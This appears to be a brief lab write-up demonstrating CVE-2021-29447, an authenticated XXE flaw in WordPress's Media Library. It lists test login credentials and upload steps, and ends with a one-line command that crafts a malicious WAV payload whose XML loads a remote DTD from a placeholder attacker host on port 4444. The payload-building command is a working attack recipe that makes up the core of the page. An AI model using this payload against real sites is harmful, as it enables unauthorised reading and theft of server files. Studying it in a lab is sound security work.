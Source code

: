 # **Exploiting CVE-2021-29447**

CVE-2021-29447 is an authenticated **XML External Entity (XXE)** vulnerability in WordPress’s Media Library that affects PHP 8. To demonstrate the vulnerability, I followed the published guidance to create a malicious WAV payload and uploaded it via the WordPress dashboard’s Media Library.

**Steps to reproduce (test environment):**

1. Log in to the WordPress admin panel using the following credentials:
    - **Username:** `test-corp`
    - **Password:** `test`
2. After logging in, navigate to **Media → Add New**.

![image.png](assets/Wordpress_CVE-2021-29447/image.png)

1. Upload the crafted WAV file (the malicious payload) through the **Add New** interface to trigger the XXE behaviour.

# Create payload

This can be created as follows:

```jsx
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version='1.0'?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '''''http://IP:4444/shell.dtd'''''>%remote;%init;%trick;]>\x00' > payload.wav
```
